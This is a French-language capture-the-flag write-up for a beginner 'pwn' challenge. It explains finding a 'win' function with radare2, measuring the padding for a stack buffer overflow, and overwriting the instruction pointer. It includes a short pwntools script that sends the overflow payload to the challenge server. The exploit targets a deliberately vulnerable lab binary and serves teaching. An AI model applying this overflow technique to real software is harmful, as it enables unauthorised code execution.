




# Beginner Pwn 2 - Nerumir

- On nous donne un binaire appelé "binary" (original ça...). Je l'inspecte avec radare2 et je trouve une fonction `win`, donc je note l'adresse, je regarde un peu dedans, toujours avec radare2, et je vois qu'effectivement elle nous affiche le flag..


 

- J'execute le programme et je peux rentrer un argument, je tape donc un truc pour déclancher une overflow, je note le padding et puis je mets des patterns un peu différents pour distinguer les octets et voir comment est écrasé le pointer d'instruction (RIP en 64bits et EIP en 32bits, c'est IP = Instruction Pointer).

 

- J'écris donc mon payload et je galère mes morts avec pwntools mais Imane est trop forte donc elle m'apprend à utiliser cet outils, il se trouve que je savais simplement que les méthodes de pwntools renvoyait un argument en `return` et non en `print` dans la sortie standard `stdout`....
- Ca ne marche pas, la fonction ne s'execute pas, cependant j'essaye alors ne me mette sur l'adresse de l'instruction suivante et ça fonctionne (des fois il faut un peu se décaler à l'intérieur de la fonction... Toujours en début d'instruction évidemment).

Voici le script : 

```python
from pwn import *

p = remote ('chals.swampctf.com', 40001)

payload = b'AAAAAAAAAAAAAAAAAA'
payload += p64(0x00401187)
p.clean()
p.sendline(payload)
response = p.recv(1024)
print(response)
```

> [!WARNING]
> A noter qu'au lieu de `p64` on pourrait écrire directement `\x87\x11\x40\x00\x00\x00\x00\x00`, ce qui revient à le mettre en `little endian` et à rajouter du padding car c'est une adresse 64bits donc stockées sur 8 octets. Et on trouve le flag !

 
